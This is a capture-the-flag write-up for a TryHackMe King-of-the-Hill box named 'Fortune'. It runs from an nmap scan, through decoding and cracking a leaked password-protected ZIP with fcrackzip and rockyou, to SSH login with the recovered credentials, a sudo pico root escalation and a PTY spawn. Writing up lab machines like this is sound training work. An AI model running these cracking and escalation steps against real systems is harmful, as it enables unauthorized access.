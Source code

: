 ```yaml
---
tagline: fortune
title: Fortune | KOTH Writeup 
description: A Concise KOTH Writeup.
banner: /blog/CTF_lg.png/
banner_alt: we luv u godder
date: '2024-04-15'
---
```


## NMAP

- I used `sudo nmap -sV -sC 10.10.148.32` for my scan.

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sV -sC 10.10.148.32 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-14 15:40 EDT
Nmap scan report for 10.10.148.32
Host is up (0.092s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3e:ae:18:87:b8:c3:35:b6:3a:af:0e:a4:c3:a2:ef:13 (RSA)
|   256 42:cf:fe:0d:cb:92:24:b9:8f:dc:11:d4:10:a7:a0:3e (ECDSA)
|_  256 5c:fc:bc:c9:3a:01:b1:b6:78:ac:66:3c:34:8f:22:2a (ED25519)
80/tcp   open  http       Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Wheel of Fortune!
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
111/tcp  open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      43991/tcp   mountd
|   100005  1,2,3      51188/udp   mountd
|   100005  1,2,3      53990/udp6  mountd
|   100005  1,2,3      54207/tcp6  mountd
|   100021  1,3,4      38116/udp   nlockmgr
|   100021  1,3,4      38145/tcp   nlockmgr
|   100021  1,3,4      39708/udp6  nlockmgr
|   100021  1,3,4      45597/tcp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs        3-4 (RPC #100003)
3333/tcp open  dec-notes?
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, JavaRMI, LPDString, NULL, kumo-server: 
|     UEsDBAoACQAAAFSjjliKv3GtHwAAABMAAAAJABwAY3JlZHMudHh0VVQJAAPwLRxm8C0cZnV4CwAB
|     BAAAAAAEAAAAAOjukMXnRaL/b0hG/sRdaxmEI1JLOfuZYAbRbHKk9xNQSwcIir9xrR8AAAATAAAA
|     UEsBAh4DCgAJAAAAVKOOWIq/ca0fAAAAEwAAAAkAGAAAAAAAAQAAAKSBAAAAAGNyZWRzLnR4dFVU
|_    BQAD8C0cZnV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AAAByAAAAAAA=
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.90 seconds
```

## Getting User

- Dirsearch gave us nothing.

- If we look at the NMAP Scan, on port 3333 we see this

```bash:Terminal
3333/tcp open  dec-notes?
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, JavaRMI, LPDString, NULL, kumo-server: 
|     UEsDBAoACQAAAFSjjliKv3GtHwAAABMAAAAJABwAY3JlZHMudHh0VVQJAAPwLRxm8C0cZnV4CwAB
|     BAAAAAAEAAAAAOjukMXnRaL/b0hG/sRdaxmEI1JLOfuZYAbRbHKk9xNQSwcIir9xrR8AAAATAAAA
|     UEsBAh4DCgAJAAAAVKOOWIq/ca0fAAAAEwAAAAkAGAAAAAAAAQAAAKSBAAAAAGNyZWRzLnR4dFVU
|_    BQAD8C0cZnV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AAAByAAAAAAA=
9999/tcp open  http       Werkzeug httpd 1.0.1 (Python 3.6.9)
```

- Cyberchef tells us that it is a ZIP.

![Image showing pkzip](/blog/fortune/pkzip.png 'Fig.1')

- Lets see whats inside.

```bash:Terminal
┌──(vipin㉿vipin)-[~/Desktop]
└─$ echo 'UEsDBAoACQAAAFSjjliKv3GtHwAAABMAAAAJABwAY3JlZHMudHh0VVQJAAPwLRxm8C0cZnV4CwABBAAAAAAEAAAAAOjukMXnRaL/b0hG/sRdaxmEI1JLOfuZYAbRbHKk9xNQSwcIir9xrR8AAAATAAAAUEsBAh4DCgAJAAAAVKOOWIq/ca0fAAAAEwAAAAkAGAAAAAAAAQAAAKSBAAAAAGNyZWRzLnR4dFVUBQAD8C0cZnV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AAAByAAAAAAA=' | base64 -d > cred.zip
┌──(vipin㉿vipin)-[~/Desktop]
└─$ unzip cred.zip
Archive:  cred.zip
[cred.zip] creds.txt password: 
```

- Seems like it is password protected. I will crack it with **fcrackzip**

```bash:Terminal
┌──(vipin㉿vipin)-[~/Desktop]
└─$ fcrackzip -u -D -p  /usr/share/wordlists/rockyou.txt /home/vipin/Desktop/cred.zip


PASSWORD FOUND!!!!: pw == peaceout
```

- Now that we have the password, we can unzip the file.

```bash:Terminal
┌──(vipin㉿vipin)-[~/Desktop]
└─$ unzip cred.zip
Archive:  cred.zip
[cred.zip] creds.txt password: 
 extracting: creds.txt               
                                                                                                       
┌──(vipin㉿vipin)-[~/Desktop]
└─$ cat creds.txt 
fortuna:MGE0OTJiM2
```

- It seems to be credentials to the user *fortuna*, 

```bash:Terminal
┌──(vipin㉿vipin)-[~/Desktop]
└─$ ssh fortuna@$IP               
The authenticity of host '10.10.148.32 (10.10.148.32)' can't be established.
ED25519 key fingerprint is SHA256:UlktbYjOEgkrcijQ2e1j4iJ3u9hj8b2xzTtKJE5YTIw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.148.32' (ED25519) to the list of known hosts.
fortuna@10.10.148.32's password: 



        ################################
        ###  Come to try your luck?  ###
        ### Welcome to your fortune! ###
        ################################

```

- The credentials worked!

## Rooting the machine

- I started by running `sudo -l`

```bash:Terminal
fortuna@fortune:~$ sudo -l
[sudo] password for fortuna: 
Matching Defaults entries for fortuna on fortune:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fortuna may run the following commands on fortune:
    (ALL : ALL) /usr/bin/pico
```

> What is pico?

- **Pico** is a text editor like **nano** and **vim**.

- Lets see how we can utilize it to get root, we will be using [gtfobins](https://gtfobins.github.io/gtfobins/pico/) to do this.

![Image showing gtfobin pico](/blog/gtfobinpico.png 'Fig.2')

- And it worked! (I forgot to take an image of it 😢)

- Once I got root I spawned a PTY with `python -c'import pty; pty.spawn("/bin/bash")'`

- After I got root, I put my name in the kings file

```bash:Terminal
root@fortune:/root# ls
flagtips.txt  king.txt
root@fortune:/root# cat flagtips.txt
Some flags are flags, some flags are games.
Good luck!
root@fortune:/root# echo 'vipin.b' > king.txt 
root@fortune:/root# cat king.txt
vipin.b
root@fortune:/root# 
```

- Seems like there isn't a root flag. Atleast we rooted the machine!

### MACHINE PWN'ED 😎

![My Tryhackme badge](https://tryhackme-badges.s3.amazonaws.com/vipin.b.png)






